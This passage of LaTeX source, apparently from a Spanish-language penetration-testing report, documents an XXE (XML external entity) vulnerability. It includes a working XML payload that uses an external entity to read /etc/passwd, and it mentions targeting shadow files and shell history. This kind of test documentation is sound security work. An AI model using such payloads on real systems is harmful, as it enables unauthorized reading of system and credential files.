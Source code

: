 \documentclass[12pt,oneside,a4paper]{book}
\begin{document}
\begin{enumerate}
\begin{enumerate}
\begin{center}
            \vspace{0.1em}
            
            Fig. 35: Visualización de directorios de ubicación raíz
        \end{center}

        \vspace{2em}

        \hspace{20pt}
        Comprobada la existencia de la vulnerabilidad, se procede a realizar pruebas para obtener información sensible del sistema, ingresando a ficheros como \textit{passwd}, \textit{shadow}, historial de consola, entre otros.

        \vspace{1em}
        
        \textbf{Fichero /etc/passwd}

        \vspace{1em}

        \begin{verbatim}
<?xml version="1.0"?>
    <!DOCTYPE replace [<!ENTITY xxe_attack SYSTEM "file:///etc/passwd"> ]>
        <comment>
            <text>
                &xxe_attack;
            </text>
        </comment>
        \end{verbatim}

        \newpage

        \begin{center}
            \includegraphics[width=12cm]{img/xxe10.png}
            
            \vspace{0.1em}
            
            Fig. 36: Fichero /etc/passwd
        \end{center}


\end{enumerate}
\end{enumerate}
\end{document}
